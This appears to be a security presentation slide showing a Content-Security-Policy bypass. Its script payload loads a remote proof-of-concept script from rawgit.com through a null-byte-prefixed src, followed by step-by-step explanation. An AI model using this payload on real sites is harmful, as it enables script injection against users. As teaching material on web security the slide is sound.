

# CSP Bypass
Content-Security-Policy: default-src 'self'; script-src 'self'
<script>
  a=document.createElement('script');
  a.id='x';
  a.src='\u0000https://rawgit.com/ajinabraham/PoC/master/script.js';
  document.body.appendChild(a);

 </script>
Create a SCRIPT element named a
Assign it with ID x
Assign the SRC as
\u0000https://rawgit.com/ajinabraham/PoC/master/script.js
Add the SCRIPT element a to DOM